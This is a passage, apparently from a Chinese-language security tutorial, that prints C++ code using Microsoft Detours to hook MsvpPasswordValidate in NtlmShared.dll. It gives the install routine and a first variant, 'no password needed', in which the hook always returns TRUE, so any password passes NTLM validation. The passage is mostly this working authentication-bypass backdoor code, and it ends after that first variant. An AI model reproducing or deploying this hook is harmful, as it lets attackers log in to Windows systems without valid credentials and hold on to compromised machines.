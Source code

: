 接着就是 Hook 代码的实现，在 DetourAttach 中其实就是一个 hook 操作，而实现函数为 HookMSVPPValidate。这里 111.txt 无太大作用，刚开始为了调 bug，索性加的。

```plain
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);
    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }
    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;
    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }
    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;
    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
```

而 HookMSVPPValidate 就是做操作的地方了。这里有两种方式。  
1.不用输入密码

```plain
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    return TRUE;
}
```
